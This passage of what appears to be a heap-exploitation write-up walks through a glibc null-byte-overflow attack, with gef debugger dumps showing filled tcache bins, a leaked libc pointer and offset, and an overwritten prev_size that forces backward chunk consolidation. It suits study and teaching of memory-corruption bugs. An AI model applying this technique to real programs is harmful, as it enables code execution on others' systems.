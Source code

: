 ```c
gef➤  heap bins tcache

// Counts set to 7 meaning both tcache bins are full
Tcachebins[idx=14, size=0xf0] count=7  ←  Chunk(addr=0x55a7bc254bd0, size=0x100, flags=PREV_INUSE)  ←  Chunk(addr=0x55a7bc254ad0, size=0x100, flags=PREV_INUSE)  ←  ...

Tcachebins[idx=17, size=0x120] count=7  ←  Chunk(addr=0x55a7bc2553f0, size=0x130, flags=PREV_INUSE)  ←  Chunk(addr=0x55a7bc2552c0, size=0x130, flags=PREV_INUSE)  ←  ...
```

* We don't want either of the chunks A or C to go into the tcache bins, as there is no consolidation in the tcache bins. The exploit relies on the fact that chunk C will coalesce backwards with chunks A and B provided we set up the heap correctly.

#### Step 3: **Prepare chunk A for consolidation later on**

* Free chunk A. This sends chunk A into the unsorted bin (as the 0x128 sized tcache bin is full), meaning a libc pointer pointing to the `main_arena` is placed into chunk A's `fd` and `bk` pointers, as shown below:

```c
gef➤  x/40gx 0x000055a7bc254250                          
0x55a7bc254250: 0x0000000000000000      0x0000000000000131 <- chunk A
0x55a7bc254260: 0x00007f7e28fbeca0      0x00007f7e28fbeca0 <- libc pointers into the main_arena unsorted bin
0x55a7bc254270: 0x0000000000000000      0x0000000000000000
...
```

* We do this free here in order to get some valid pointers inserted into A's `fd` and `bk` fields. This is important later because when we free chunk C and have it consolidate backwards with chunks A and B, there are some security checks that will ensure that chunk A's `fd` and `bk` pointers are valid. More information will be given below when chunk C is being freed.

* Using gdb, we can calculate the difference between the leaked pointers and the libc base now. This offset remains constant every time we run the program. This offset is found to be `0x3ebca0`.

#### Step 4: **Abuse the vulnerability**

* Edit chunk B's contents to cause a NULL byte overflow into chunk C's size. This changes chunk C's total size (including metadata) from 0x121 to 0x100. Notice that the `PREV_INUSE` bit gets set to 0 in the process, due to the NULL byte overflow, which causes the chunk that is `prev_size` bytes before C to appear to be free when we free chunk C later on.

* In the process of doing the NULL byte overflow, we also set chunk C's `prev_size` field to 0x250. This causes the `prev_size` field to encompass both chunks A and B. Later when we free chunk C, the `unlink` macro is called using chunk A ***because*** of the fact that we set chunk C's `prev_size` such that it encompasses up to chunk A. This causes chunks A, B, and C to be consolidated into one large chunk, which is then put into the unsorted bin.

* The code for the unlink macro will be shown a bit further down.

```c
gef➤  x/80gx 0x55a7bc254380
0x55a7bc254380: 0x0000000000000130      0x0000000000000120 <- chunk B
0x55a7bc254390: 0x4242424242424242      0x4242424242424242
...
0x55a7bc254480: 0x4242424242424242      0x4242424242424242
0x55a7bc254490: 0x4242424242424242      0x4242424242424242
0x55a7bc2544a0: 0x0000000000000250      0x0000000000000100 <- prev_size 0x250 followed by chunk C size overwritten
0x55a7bc2544b0: 0x0000000000000000      0x0000000000000000
0x55a7bc2544c0: 0x0000000000000000      0x0000000000000000
```
